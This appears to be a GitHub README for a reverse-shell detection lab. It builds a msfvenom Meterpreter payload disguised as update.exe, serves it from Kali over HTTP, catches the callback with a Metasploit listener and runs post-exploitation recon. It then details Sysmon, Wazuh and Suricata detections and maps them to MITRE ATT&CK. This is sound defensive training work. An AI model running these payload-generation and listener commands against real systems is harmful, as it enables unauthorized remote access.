# Reverse Shell Detection Lab


## Overview

This lab simulates a real-world reverse shell attack using **Metasploit / msfvenom** from a Kali Linux attacker VM against a Windows 10 victim machine. The payload (`update.exe`) is delivered via a Python HTTP server and executed on the victim. Detection is achieved through **Sysmon** (Event ID 1 and 3) forwarded to **Wazuh SIEM**, with additional network-layer detection via **Suricata IDS**. All findings are mapped to the **MITRE ATT&CK** framework.

**Key skills demonstrated:**
- Generating and deploying a staged Meterpreter reverse shell payload with msfvenom
- Delivering payload via Python HTTP server (simulating drive-by download)
- Setting up a Metasploit multi/handler listener
- Post-exploitation reconnaissance: `whoami`, `ipconfig`, `net user`, `net localgroup administrators`
- Detecting process creation and network connection events via Sysmon
- Triaging MITRE ATT&CK alerts in Wazuh (Rule 92031, T1087)
- Network-layer detection via Suricata fast.log

---

## Lab Environment

| Role | OS | IP | Tools |
|---|---|---|---|
| Attacker | Kali Linux (VM) | 192.168.0.244 | Metasploit 6.4.56-dev, msfvenom |
| Victim | Windows 10 (VM) | 192.168.0.29 | Sysmon v15, Wazuh Agent (ID 004) |
| SIEM/IDS | Ubuntu Server (VM) | — | Wazuh 4.x, Suricata |

**Network:** Bridged/Host-Only network. Microsoft Defender **disabled** on victim for lab purposes.

---

## Lab Setup

### 1. Disable Windows Defender (Victim)

For the lab, real-time protection is disabled to allow payload execution without interference.



> In a real SOC scenario, this would itself be a high-severity alert (T1562.001 — Impair Defenses).

### 2. Verify Kali Connectivity

Confirm Kali's IP (`192.168.0.244`), Metasploit version, and network reachability to the victim:

```bash
ip a          # Kali IP: 192.168.0.244 on eth0
msfconsole --version  # Framework Version: 6.4.56-dev
ping -c 3 192.168.0.29  # 0% packet loss → victim reachable
```



### 3. Sysmon on Windows 10 (Victim)

```powershell
# Run as Administrator
.\Sysmon64.exe -accepteula -i sysmonconfig.xml
```

### 4. Wazuh Agent on Windows 10

Agent ID: **004**, Agent Name: `windows10-lab`, IP: `192.168.0.29`

---

## Attack Simulation

### Step 1 — Generate the Payload (Kali)

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=192.168.0.244 \
  LPORT=4444 \
  -f exe \
  -o /tmp/update.exe
```

Output: `Payload size: 510 bytes`, `Final size of exe file: 7168 bytes`, saved as `/tmp/update.exe`



> The payload is named `update.exe` to blend in as a legitimate Windows update — a common attacker naming convention.

### Step 2 — Serve the Payload (Kali)

```bash
cd /tmp
python3 -m http.server 8080
```

The HTTP server logs confirm the victim (`192.168.0.29`) downloaded `update.exe`:

```
192.168.0.29 - - [24/May/2026 09:09:25] "GET /update.exe HTTP/1.1" 200 -
```



### Step 3 — Start the Metasploit Listener (Kali)

```bash
msfconsole
```

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.0.244
set LPORT 4444
run
```

```
[*] Started reverse TCP handler on 192.168.0.244:4444
```



### Step 4 — Execute the Payload (Windows 10 Victim)

The victim downloads and runs `update.exe` from the attacker's HTTP server.

### Step 5 — Meterpreter Session Established

```
[*] Started reverse TCP handler on 192.168.0.244:4444
[*] Sending stage (203846 bytes) to 192.168.0.29
[*] Meterpreter session 1 opened (192.168.0.244:4444 → 192.168.0.29:49966) at 2026-05-24 09:20:16
meterpreter >
```



### Step 6 — Post-Exploitation Reconnaissance

Inside the Meterpreter shell (via `shell` command), the attacker runs discovery commands:

```cmd
whoami
> windows\vboxuser

ipconfig
> IPv4 Address: 192.168.0.29

net user
> Administrator  DefaultAccount  Guest  vboxuser  WDAGUtilityAccount

net localgroup administrators
> Administrator, vboxuser
```



---

## Detection

### Sysmon — Event ID 1: Process Creation

#### update(2).exe — Payload Execution

Sysmon captures the malicious binary spawning from `explorer.exe` (double-click execution):

| Field | Value |
|---|---|
| EventID | 1 |
| Image | `C:\Users\vboxuser\Downloads\update(2).exe` |
| ParentImage | `C:\Windows\explorer.exe` |
| CommandLine | `"C:\Users\vboxuser\Downloads\update(2).exe"` |
| IntegrityLevel | Medium |
| MD5 | `856F45F605191F839014C98830D2525F` |

> **No FileVersion, Description, Company, or Product** — unsigned binary with no metadata is a strong IOC.



#### whoami.exe — Attacker Reconnaissance

Sysmon captures `whoami.exe` being spawned from `cmd.exe` (the attacker's shell):

| Field | Value |
|---|---|
| EventID | 1 |
| Image | `C:\Windows\System32\whoami.exe` |
| ParentImage | `C:\Windows\System32\cmd.exe` |
| CommandLine | `whoami` |
| CurrentDirectory | `C:\Users\vboxuser\Downloads\` |

> `whoami` spawned from `cmd.exe` inside the Downloads directory = post-exploitation recon pattern.



### Sysmon — Event ID 3: Network Connection (C2)

`update(2).exe` initiates a TCP connection to the Kali attacker on port 4444:

| Field | Value |
|---|---|
| EventID | 3 |
| Image | `C:\Users\vboxuser\Downloads\update(2).exe` |
| SourceIp | `192.168.0.29` |
| SourcePort | `49966` |
| DestinationIp | `192.168.0.244` |
| DestinationPort | `4444` |
| Protocol | tcp |



### Wazuh — Alert: Account Discovery (T1087)

The `net localgroup administrators` command triggers Wazuh Rule **92031**:

| Field | Value |
|---|---|
| Rule ID | 92031 |
| Rule Level | 3 |
| MITRE Technique | Account Discovery |
| MITRE ID | **T1087** |
| MITRE Tactic | Discovery |
| Agent | windows10-lab (192.168.0.29) |
| CommandLine | `net localgroup administrators` |



### Wazuh — Dashboard: Discovery Alerts

4 alerts fired in rapid succession for T1087 Account Discovery activity, all from `windows10-lab`:



### Suricata — Network-Layer Detection

Suricata `fast.log` captures multiple network signatures correlated with the attack:

```
[**] ET HUNTING SUSPICIOUS Dotted Quad Host MZ Response [**]  → 192.168.0.29:49797
[**] ET INFO Python SimpleHTTP ServerBanner [**]  192.168.0.244:8080 → 192.168.0.29
[**] SURICATA Applayer Protocol detection skipped [**]  192.168.0.29:49739 → 192.168.0.244:4444
[**] SURICATA Applayer Protocol detection skipped [**]  192.168.0.29:49966 → 192.168.0.244:4444
```

Key detections: **MZ header in HTTP response** (EXE download), **Python HTTP server banner** (payload delivery), and **unknown protocol on port 4444** (C2 channel).



Suricata interface stats confirm active monitoring (`685270` packets processed, `0` dropped):



---

## MITRE ATT&CK Mapping

| Technique ID | Name | Evidence |
|---|---|---|
| T1059.003 | Command and Scripting Interpreter: Windows Command Shell | `cmd.exe` used post-exploitation |
| T1087 | Account Discovery | `net user`, `net localgroup administrators` → Wazuh Rule 92031 |
| T1571 | Non-Standard Port | C2 on port 4444 → Suricata alert |
| T1105 | Ingress Tool Transfer | `update.exe` downloaded via Python HTTP → Suricata ET INFO |
| T1562.001 | Impair Defenses | Windows Defender disabled on victim |

---

## Screenshots Summary

| # | File | Stage |
|---|---|---|
| 1 | `defender-disabled.png` | Lab prep — Defender disabled |
| 2 | `kali-ready-check.png` | Kali IP, MSF version, ping to victim |
| 3 | `msfvenom-payload-created.png` | Payload generation |
| 4 | `python-http-server.png` | Payload delivery via HTTP |
| 5 | `metasploit-listener-started.png` | Listener setup |
| 6 | `meterpreter-session-opened.png` | Session established |
| 7 | `shell-commands.png` | Post-exploitation recon |
| 8 | `sysmon-event-id-1-cmd.png` | Sysmon EID 1 — payload process |
| 9 | `sysmon-event-id-1-whoami.png` | Sysmon EID 1 — whoami recon |
| 10 | `sysmon-event-id-3-c2.png` | Sysmon EID 3 — C2 connection |
| 11 | `net_local_administrator.png` | Wazuh EID 1 detail — net localgroup |
| 12 | `Discovery.png` | Wazuh dashboard — T1087 alerts |
| 13 | `suricata-fast-log.png` | Suricata — MZ response + C2 port |
| 14 | `suricata-iface-stat.png` | Suricata — interface stats |

---

## Conclusions

- A staged Meterpreter reverse shell (`update.exe`) was successfully generated and executed on the victim.
- **Sysmon EID 1** caught the payload execution (unsigned binary, no metadata) and subsequent recon commands (`whoami`, `net localgroup administrators`).
- **Sysmon EID 3** logged the outbound TCP C2 connection to `192.168.0.244:4444`.
- **Wazuh Rule 92031** fired 4 alerts for Account Discovery (T1087) based on `net` command execution.
- **Suricata** provided an independent network-layer confirmation: EXE download (MZ header), Python HTTP server detection, and unknown protocol on port 4444.
- **Multi-layer detection** (EDR + SIEM + IDS) significantly increases detection confidence — no single tool caught everything.

---

## Repository Structure

```
Reverse-Shell-Detection-Lab/
├── README.md
├── screenshots/
│   ├── defender-disabled.png
│   ├── kali-ready-check.png
│   ├── msfvenom-payload-created.png
│   ├── python-http-server.png
│   ├── metasploit-listener-started.png
│   ├── meterpreter-session-opened.png
│   ├── shell-commands.png
│   ├── sysmon-event-id-1-cmd.png
│   ├── sysmon-event-id-1-whoami.png
│   ├── sysmon-event-id-3-c2.png
│   ├── net_local_administrator.png
│   ├── Discovery.png
│   ├── suricata-fast-log.png
│   └── suricata-iface-stat.png
└── configs/
    └── sysmonconfig.xml
```

---

## Related Labs

- [Fileless-Malware-Lab](../Fileless-Malware-Lab) — PowerShell IEX payload, process migration, SYSTEM
- [wazuh-sysmon-detection-lab](../wazuh-sysmon-detection-lab)
- [Brute-Force-Detection-Lab](../Brute-Force-Detection-Lab)
